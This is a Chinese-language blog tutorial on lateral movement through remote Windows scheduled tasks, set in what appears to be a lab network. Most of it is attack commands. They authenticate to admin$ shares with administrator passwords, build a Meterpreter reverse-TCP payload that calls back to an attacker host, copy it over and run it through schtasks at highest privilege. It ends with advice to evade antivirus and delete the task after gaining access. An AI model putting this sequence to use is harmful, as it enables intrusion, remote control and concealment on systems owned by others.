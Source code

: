 ```yaml
---
title: 横向移动：schtasks远程计划任务
categories:
- windows
tags:
- windows
---
```


## 视频教程：
[横向移动手法介绍](https://www.bilibili.com/video/BV1Hz4y1Z7pJ)
## 拓扑图

![拓扑图](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-04-06/10.png)

## 执行的命令
```shell
net user administrator 123456
net user administrator qwe123!
net use \\192.168.123.67\admin$ /user:"administrator" 123456
```

win10提示:服务器没有配置远程管理的功能
win2008 命令成功完成
```shell
net use \\192.168.123.24\admin$ /user:"administrator" qwe123!
net time \\192.168.123.24 提示服务尚未启动
at \\192.168.123.24
```

生成木马
```shell
handler -H 192.168.123.138 -P 4444 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.138 LPORT=4444 -f exe -o payload.exe
```

上传木马
```shell
xcopy C:\Users\whale\Desktop\p\0404.exe \\192.168.123.24\admin$\temp\
```

调整字符集
```shell
chcp 437
```

创建计划任务
```shell
schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00
```

设置无论用户是否登陆，都执行计划任务

run whether user is logged on or not 
```shell
schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00 /NP
```

查看帮助
```shell
schtasks /create /?
```

执行计划任务
```shell
schtasks /run /tn todayfive /s 192.168.123.24 /U "administrator" /P "qwe123!"
```

查看运行状态
```shell
schtasks /query /s 192.168.123.24 /U "administrator" /P "qwe123!" | findstr "todayfive"
```

删除
```shell
schtasks /delete /F /tn todayfive /s 192.168.123.24 /U " administrator" /P "qwe123!"
```

在远程的目标机器上创建计划任务
1. 被动密码搜集的方式
2. 指定计划任务执行的时间
3. exe免杀木马

注意：
- win7以后使用schtasks命令，之前使用at命令
- 应用场景：快速横向移动拿权限用的。
- 非稳定控制的方式。需要自行免杀绕过av。
- 拿到权限就删掉计划任务
- 中文系统要调整字符集
